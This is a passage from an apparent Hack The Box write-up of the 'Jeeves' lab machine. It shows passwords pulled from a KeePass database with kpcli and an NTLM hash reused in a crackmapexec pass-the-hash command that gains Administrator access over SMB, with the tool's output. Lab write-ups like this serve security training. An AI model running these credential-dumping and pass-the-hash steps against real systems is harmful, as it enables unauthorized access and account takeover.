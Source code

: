 ```bash

kpcli:/> show -f 5

 Path: /CEH/
Title: Jenkins admin
Uname: admin
 Pass: 
  URL: http://localhost:8080
Notes: We don't even need creds! Unhackable! 

kpcli:/> show -f 6

 Path: /CEH/
Title: Keys to the kingdom
Uname: bob
 Pass: lCEUnYPjNfIuPZSzOySA
  URL: 
Notes: 

kpcli:/> show -f 7

 Path: /CEH/
Title: Walmart.com
Uname: anonymous
 Pass: Password
  URL: http://www.walmart.com
Notes: Getting my shopping on
```

### NTLM hash

Among the extracted credentials, there's a NTLM look hash.
`aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00`

I tested this hash with `Administrator` account using `crackmapexec` and it worked.

```bash
┌──(kali㉿kali)-[~/htb/jeeves]
└─$ crackmapexec smb 10.10.10.63 -u Administrator -H e0fb1fb85756c24235ff238cbe81fe00
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing FTP protocol database
[*] Initializing MSSQL protocol database
[*] Initializing SSH protocol database
[*] Initializing RDP protocol database
[*] Initializing WINRM protocol database
[*] Initializing LDAP protocol database
[*] Initializing SMB protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\Administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
```
